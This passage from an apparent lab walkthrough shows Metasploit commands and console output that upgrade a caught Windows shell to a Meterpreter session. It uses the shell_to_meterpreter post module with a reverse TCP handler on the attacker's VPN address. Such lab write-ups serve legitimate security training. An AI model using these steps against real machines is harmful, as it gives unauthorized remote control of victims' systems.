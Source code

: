 <br />
Set LHOST to the IP on the tun0 interface.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST tun0
LHOST => 10.4.119.29
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST tun0
LHOST => 10.4.119.29
```
{% endraw %}

<br />
Use sessions to get a list of the Active seesions for this metasploit run.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.4.119.29:4444 -> 10.10.18.22:49203 (10.10.18.22)
```
{% endraw %}

<br />
Set the SESSION to the session from the shell that was caught earlier.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```
{% endraw %}

<br />
Run the exploit and see if you start another session with meterpreter.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > exploit

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.4.119.29:4433 
[*] Post module execution completed
```
{% endraw %}

<br />
If this does not work, reexploit the machine from the beginning.

{% raw %}
```bash
msf6 post(multi/manage/shell_to_meterpreter) > exploit

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.4.119.29:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (203846 bytes) to 10.10.18.22
[*] Meterpreter session 2 opened (10.4.119.29:4433 -> 10.10.18.22:49226) at 2025-01-07 01:28:03 +1100
[*] Stopping exploit/multi/handler
```